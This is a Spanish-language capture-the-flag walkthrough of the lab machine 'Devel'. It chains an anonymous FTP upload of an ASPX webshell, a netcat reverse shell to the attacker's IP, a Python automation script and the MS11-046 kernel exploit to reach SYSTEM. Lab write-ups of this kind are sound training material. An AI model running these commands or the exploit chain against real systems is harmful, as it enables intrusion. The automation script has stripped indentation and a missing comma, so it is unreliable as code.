# Devel

```bash
nmap -p- --open -sCV --min-rate=5000 -n -Pn 10.129.58.25 -oN nmap_scan.txt
```



```bash
ftp 10.129.58.25
```

- Anonymous
- "Enter"
Logueados



No parece haber nada interesante en los archivos a priori

-
```bash
whatweb "http://10.129.58.25"
```



- Encontramos un IIS 7.5

- Gobuster y wfuzz no reportan nada interesante
- Probamos gobuster con diccionario */usr/share/seclists/Discovery/Web-Content/Web-Servers/IIS.txt*
No encontramos mucho

_-> Cambio IP -> 10.129.58.157_

- Intentaremos subir al ftp un archivo malicioso en formato ejecutable por un servidor windows, es decir un *.aspx*



- Buscamos en nuestro sistema por archivos que sean .aspx y que nos den un cmd para subirlo al ftp e intentar ejecutarlo desde la web, ya que está sincronizada con el directorio donde reside el ftp
```bash
locate .aspx | grep cmd
```



Probaremos con */usr/share/davtest/backdoors/aspx_cmd.aspx*
Nos lo copiamos a nuestro directorio actual de trabajo
```bash
cp /usr/share/davtest/backdoors/aspx_cmd.aspx .
```

- Accedemos a ftp y subimos con put
```bash
put aspx_cmd.aspx
```



- Abriendo el recurso desde la web obtenemos una webshell



- Si hacemos un dir, vemos que la webshell se encuentra en C:\Windows\system32\inetsrv



- Subiremos el binario netcat desde nuestra máquina al ftp para entablarnos una shell al sistema. Tendremos que encontrar el directorio absoluto en el que opera el IIS-Server para ver donde se está subiendo



- **C:\inetpub\wwwroot**
Si listamos en la webshell el contenido de ese directorio, efectivamente vemos que es el directorio donde está la web y los archivos que hemos subido



- Subiremos *netcat* para entablar la revshell
- Buscamos en nuestra máquina nc.exe
```bash
locate nc.exe
```



- Nos lo copiamos a nuestro directorio
```bash
cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```

- Nos ponemos en modo binary
```bash
binary
```

desde el ftp para subir el binario (xd) netcat
- Lo subimos por ftp
```bash
put nc.exe
```

- Utilizaremos **rlwrap** para tener una consola más interactiva (aunque no nos permitirá hacer ctrl+c)
Nos ponemos a la escucha ->
```bash
rlwrap nc -nlvp 443
```

- Estableceremos la revshell desde la web



```bash
C:\inetpub\wwwroot\nc.exe -e cmd.exe 10.10.17.61 443
```

iis apppool\web

_-> Cambio IP ->10.129.59.185_
--- OTRA FORMA  -> AUTOMATIZANDO EL PROCESO

Con python3

Librerías importadas
- *pwn*: barras de progreso, logs etc
- *ftplib*: loggear ftp etc
- *request*: tramitar peticiones web de cara a la webshell que hemos entablado con el archivo .aspx
- *re*: regex para ejecutar petición por POST con el VIEWSTATE y EVENTVALIDATION que son variables
- *signal*: hacer ctrl+c y controlar el flujo del código





- *pdb*: debbugear el código
- *sys*: definir códigos de estado a la salida
- *time*: para hacer sleeps

re.findall(r'id="__VIEWSTATE" value="(.*?)"', r.text)[0]

```
#!/usr/bin/python3

from pwn import *
from ftplib import FTP
import requests, re, signal, pdb, sys, time

def def_handler(sig, frame):
print("\n\n[!] Saliendo...\n")
sys.exit(1)

malicious_files = ["aspx_cmd.aspx", "nc.exe"]

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
console_url = "http://10.129.59.229/%s" % malicious_files[0]
lport = 443

def uploadFiles():
ftp = FTP()
#ftp.set_debuglevel(2)
ftp.connect("10.129.59.229", 21)
ftp.login("anonymous", "")

for f in malicious_files:

ftp.storbinary("STOR %s" % f, open(f, "rb"))

def makeRequest():

s = requests.session()

r = s.get(console_url)

post_data = {
'__VIEWSTATE': re.findall(r'id="__VIEWSTATE" value="(.*?)"', r.text)[0],
'__EVENTVALIDATION': re.findall(r'id="__EVENTVALIDATION" value="(.*?)"', r.text)[0]
'txtArg': 'C:\inetpub\wwwroot\%s -e cmd.exe 10.10.17.61 443' % malicious_files[1],
'testing': 'excute'
}

# RCE
r = s.post(console_url, data=post_data)

if __name__ == '__main__':

uploadFiles()
try:
threading.Thread(target=makeRequest, args=()).start()
except Exception as e:
log.error(str(e))

shell = listen(lport, timeout=30).wait_for_connection()

shell.interactive()
```

## Escalada

- Vemos que hay un usuario babis y Administrator en *C:\Users*
No tenemos acceso a ninguno

```powershell
whoami /priv
```



Vemos que tenemos un privilegio SeImpersonatePrivilege -> Podríamos escalar con *RottenPotato* o *JuicyPotato* pero vamos a hacerlo de otra forma

```powershell
systeminfo
```



Windows 7 en versión explotable

```powershell
netstat -nat
```

Encontramos varios puertos abiertos pero vamos a intentar explotar la versión

- Buscamos *6.1.7600 N/A Build 7600 privilege scalation*
Vemos que hay un MS11-046 con adf.sys -> Buscamos algún exploit en github
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-046

Es un ejecutable que al correrlo nos da una consola como Administrator

- Lo descargaremos y pasaremos a la máquina víctima windows
- Creamos un recurso smb
```powershell
impacket-smbserver smbPwned $(pwd)
```

- Nos movemos hacia el directorio temp desde la máquina víctima para descargar el archivo
```powershell
C:\Windows\Temp
mkdir Privesc
cd Privesc
copy \\10.10.17.61\smbPwned\ms11-046.exe ms11-046.exe
.\ms11-046.exe
```

nt authority\system

- Buscar reecursivamente flags
Estando en *C:\Users*
```powershell
dir /r /s user.txt
```

- C:\Users\babis\Desktop
```powershell
dir /r /s root.txt
```

- C:\Users\Administrator\Desktop
